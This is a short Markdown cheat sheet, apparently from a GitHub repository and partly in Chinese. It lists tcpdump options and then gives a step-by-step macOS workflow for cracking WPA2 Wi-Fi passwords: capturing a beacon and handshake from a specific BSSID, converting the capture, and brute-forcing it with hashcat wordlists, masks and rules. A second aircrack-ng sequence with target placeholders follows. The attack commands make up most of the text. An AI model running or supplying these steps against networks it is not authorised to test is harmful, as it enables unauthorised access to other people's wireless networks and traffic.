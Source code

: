 # Tcpdump
+ -c [count]
	抓去指定数量的包
+ -i [interface]
	指定要抓包的接口
+ -I 
	设置为监听模式，只支持IEEE 802.11 Wi-Fi 接口，并且只支持一些操作系统
+ -w [file]
	指定将抓包数据写入一个文件而不是打印出来
+ -U
	指定缓存，如果设置了-w，那么抓包数据会立即写入文件，没有指定-w，数据会被缓存然后输出
+ -vvv
	输出更多


### Wifi Mac 帧
<center><img src="pics/wifi-frame.jpg" width="60%"></center>

软件安装：
+ brew install hashcat
+ brew install hcxtools
+ brew install wireshark

1. export BSSID=18:9e:2c:64:88:3c
2. networksetup -listallhardwareports
3. sudo airport -z
4. sudo airport -c153
5. sudo tcpdump "type mgt subtype beacon and ether src $BSSID" -I -c 1 -i en0 -w beacon.cap
6. sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
7. mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
8. hcxpcapngtool -o hashfile capture.cap
9. hashcat -m 22000 hashfile wpa2-wordlists/full.txt
10. hashcat -m 22000 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
11. hashcat -m 22000 hashfile wpa.txt -r Probable-Wordlists/Analysis-Files/ProbWL-547-rule-probable-v2.rule

https://hashcat.net/cap2hashcat/

aircrack-ng -1 -a 1 -b 18:9e:2c:64:88:3c 


1. Install aircrack-ng:`brew install aircrack-ng`
2. `sudo airport -s`
3. `sudo airport en1 sniff [CHANNEL]`
4. New Terminal Window: `aircrack-ng -1 -a 1 -b [TARGET_MAC_ADDRESS] [CAP_FILE]`
// Notes: the cap_file will be located in the /tmp/airportSniff*.cap.